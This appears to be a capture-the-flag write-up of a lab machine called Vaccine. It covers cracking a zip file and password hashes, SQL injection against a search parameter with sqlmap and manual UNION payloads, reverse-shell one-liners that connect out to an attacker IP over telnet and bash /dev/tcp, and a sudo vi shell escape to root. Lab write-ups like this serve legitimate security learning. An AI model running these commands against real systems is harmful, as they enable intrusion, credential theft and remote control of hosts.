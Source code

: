 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  

![alt text](./img/vaccine.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/vaccine01.PNG?raw=true)  

![alt text](./img/vaccine02.PNG?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/vaccine03.PNG?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/vaccine04.PNG?raw=true)  

This was unexpected…..however this password can be easily cracked with John…  
![alt text](./img/vaccine05.PNG?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/vaccine06.PNG?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/vaccine07.PNG?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/vaccine08.PNG?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/vaccine09.PNG?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/vaccine10.PNG?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/vaccine12.PNG?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/vaccine11.PNG?raw=true)  

With this credential we can connect to port 22 of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
Attacker box: nc -nvlp 1234  
Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
Attacker box: nc -nvlp 4444  
Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  
![alt text](./img/vaccine13.PNG?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/vaccine14.PNG?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
PRESS ESC KEY  
:set shell=/bin/sh  
:shell  
![alt text](./img/vaccine15.PNG?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/vaccine17.PNG?raw=true)  

/etc/shadow  
![alt text](./img/vaccine16.PNG?raw=true)  
